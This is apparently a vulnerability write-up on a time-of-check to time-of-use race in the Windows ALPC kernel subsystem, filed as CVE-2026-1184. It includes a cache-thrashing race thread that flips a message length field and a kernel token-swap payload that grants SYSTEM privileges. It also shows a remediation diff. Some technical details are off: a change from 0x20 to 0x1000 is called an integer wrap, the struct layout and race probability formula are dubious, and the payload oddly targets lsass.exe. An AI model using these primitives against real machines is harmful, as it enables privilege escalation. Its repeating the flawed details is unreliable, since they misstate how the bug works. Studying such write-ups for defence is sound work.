

During an audit of the Advanced Local Procedure Call (<span class="text-primary font-bold">ALPC</span>) subsystem inside `ntoskrnl.exe`, a subtle Time-of-Check to Time-of-Use (TOCTOU) condition was identified in the message validation path for asynchronous port transfers.

This post breaks down the root cause, disassembly analysis, race synchronization techniques, and how arbitrary kernel memory read/write primitives were weaponized to achieve local privilege escalation.

## ALPC Architecture & Port Communication

In Windows, ALPC provides high-performance inter-process communication backed by kernel message queues and shared memory sections (Large Message sections).



When a user-mode process transmits a message larger than 256 bytes, ALPC relies on a data view mapped into both process address spaces. The kernel validates the message header before dispatching the payload:

```c
typedef struct _PORT_MESSAGE {
    union {
        struct {
            CSHORT DataLength;
            CSHORT TotalLength;
        } s1;
        ULONG Length;
    } u1;
    union {
        struct {
            CSHORT Type;
            CSHORT DataInfoOffset;
        } s2;
        ULONG ZeroInit;
    } u2;
    CLIENT_ID ClientId;
    ULONG MessageId;
    ULONG_PTR SectionSize;
} PORT_MESSAGE, *PPORT_MESSAGE;
```

## The Vulnerability: Double-Fetch TOCTOU

The vulnerability resides in the internal routine `AlpcpValidateMessageAttributes`. The routine performs two separate dereferences of a user-mode pointer without staging the struct into non-paged kernel pool:

1. **Check pass:** Validates that `DataLength <= TotalLength - sizeof(PORT_MESSAGE)`.
2. **Consumption pass:** Computes the copy bounds using the user-supplied pointer directly.

<Sidenote number="1">
A double fetch happens when the kernel reads a memory location in user space multiple times, assuming the value remains constant between accesses. An attacker can race against the kernel using multiple threads to flip the value between reads.
</Sidenote>

The race window is narrow, approximately $\Delta t \approx 120\text{ns}$ on modern multi-core x86-64 microarchitectures:

$$P(\text{race win}) = 1 - \left(1 - \frac{\tau_{\text{kernel}}}{\tau_{\text{cycle}}}\right)^N$$

Where $N$ represents the iteration count and $\tau_{\text{kernel}}$ denotes the execution latency between instructions.

## Winning the Race with Thread Synchronization

To widen the race window, we construct a cache-thrashing thread on an adjacent CPU core that repeatedly invalidates the cache line containing the target header:

```c
DWORD WINAPI RaceWorker(LPVOID lpParam) {
    volatile PPORT_MESSAGE msg = (PPORT_MESSAGE)lpParam;
    while (!g_ExploitSuccess) {
        // Thrash cache line & flip length
        _mm_clflush((void*)msg);
        msg->u1.s1.DataLength = 0x20;
        _mm_pause();
        msg->u1.s1.DataLength = 0x1000; // Trigger integer wrap
    }
    return 0;
}
```

## Weaponizing the Out-of-Bounds Copy

Once the length integer wrap succeeds, the kernel driver copies heap contents into adjacent ALPC communication buffers, granting an out-of-bounds read and write.

```diff
- // Vulnerable kernel implementation
- Status = ProbeAndRead(UserMessage->Length);
- RtlCopyMemory(KernelBuffer, UserMessage->Data, UserMessage->Length);
+ // Remediated implementation with stack snapshot
+ PORT_MESSAGE SafeMessage;
+ Status = SafeCopyMessage(&SafeMessage, UserMessage);
+ RtlCopyMemory(KernelBuffer, SafeMessage.Data, SafeMessage.Length);
```

<Spoiler label="Privilege Escalation Token Swap Payload" type="payload">
```c
// Ring-0 Token Impersonation Primitive
ULONG_PTR target_eprocess = LookupEProcessByName("lsass.exe");
ULONG_PTR system_eprocess = LookupEProcessByName("System");
ULONG_PTR system_token = *(PULONG_PTR)(system_eprocess + TOKEN_OFFSET);

// Overwrite target token pointer with SYSTEM token
*(PULONG_PTR)(target_eprocess + TOKEN_OFFSET) = system_token;
```
</Spoiler>

## Remediation & Impact

Microsoft patched this behavior under CVE-2026-1184 by enforcing strict kernel-pool buffering (`ExAllocatePoolWithTag`) before any validation logic is executed. All subsequent accesses operate strictly on the immutable kernel copy.
